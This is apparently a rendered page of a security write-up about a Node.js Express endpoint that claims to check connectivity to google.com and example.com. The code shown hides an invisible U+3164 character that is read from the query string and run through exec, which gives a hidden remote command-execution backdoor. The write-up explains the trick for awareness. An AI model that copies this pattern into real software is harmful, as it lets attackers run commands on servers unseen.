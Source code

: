 ```javascript
        outcomeStdout += `"${checkCommands[i]}": `;
        outcomeStdout += "\n\n";
        outcomeStdout += outcome.stdout.trim();
        outcomeStdout += "\n\n";
      };
      res.send(`outcome ok:\n${outcomeStdout}`);
  } catch(e) {
      res.status(500);
      res.send(`outcome failed: ${e}`);
  }
});

app.listen(3000);
```

Looking at this part of the backend code:

```javascript
// Check whether we can reach google.com and example.com
app.get(`/${portasulretro}`, async (req, res) => {
  const { timeout,ㅤ} = req.query;
  const checkCommands = [
      'ping -c 1 google.com', 
      'curl -s http://example.com/',ㅤ
  ];

  try {
      const outcomes = await Promise.all(checkCommands.map(cmd => 
              cmd && exec(cmd, { timeout: +timeout || 5_000 })));

      res.status(200).contentType('text/plain');

      var outcomeStdout = '';
      for(i = 0; outcome = outcomes[i]; i ++)  {
        outcomeStdout += `"${checkCommands[i]}": `;
        outcomeStdout += "\n\n";
        outcomeStdout += outcome.stdout.trim();
        outcomeStdout += "\n\n";
      };
      res.send(`outcome ok:\n${outcomeStdout}`);
  } catch(e) {
      res.status(500);
      res.send(`outcome failed: ${e}`);
  }
});
```

We see that the `/${portasulretro}` endpoint checks if the server can reach `google.com` and `example.com` by executing the commands ``ping -c 1 google.com`` and ``curl -s http://example.com/``.

The problem with this implementation is that in the lines:
```javascript
const { timeout,\u3164} = req.query;
...
'curl -s http://example.com/',\u3164
``` 
there are invisible unicodes characters (U+3164 in this case) which can be used as a backdoor as it will be explained.
